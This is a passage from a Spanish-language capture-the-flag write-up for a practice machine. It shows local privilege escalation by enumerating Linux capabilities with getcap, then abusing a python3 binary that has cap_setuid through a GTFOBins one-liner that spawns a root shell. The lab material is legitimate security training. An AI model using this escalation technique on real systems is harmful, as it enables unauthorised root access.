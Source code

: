 El binario no tiene **permisos SUID**, pero podemos ver qué capabilities tiene.

Para poder verlas, necesitamos el binario **getcap**, pero no parece estar en el directorio `/bin`. Entonces, podemos buscarlo con **find**:
```bash
webos@TheHackersLabs-Webos:~$ find / -name getcap -type f 2>/dev/null
/usr/sbin/getcap
```
Lo encontramos.

Ahora, veamos qué capabilities tiene:
```bash
webos@TheHackersLabs-Webos:~$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=ep
/home/webos/python3 cap_setuid=ep
```
Muy bien, el binario tiene la capability `cap_setuid=ep`, pues es una capacidad del **kernel de Linux** que permite a un proceso cambiar su **UID** efectivo, real y guardado (es decir, actuar como otro usuario).

Esto nos puede permitir escalar privilegios.

Tenemos una forma de abusar de esta capability en la **guía de GTFOBins**:
* <a href="https://gtfobins.github.io/gtfobins/python/" target="_blank">GTFOBins: python</a>

Usaremos el siguiente comando:

<p align="center">
<img src="/assets/images/THL-writeup-webos/Captura15.png">
</p>

Ejecutémoslo:
```bash
webos@TheHackersLabs-Webos:~$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@TheHackersLabs-Webos:~# whoami
root
```
Somos **Root**.

Obtengamos la última flag:
```bash
root@TheHackersLabs-Webos:~# cd /root
root@TheHackersLabs-Webos:/root# ls
root.txt
root@TheHackersLabs-Webos:/root# cat root.txt
...
```
Y con esto, terminamos la máquina.
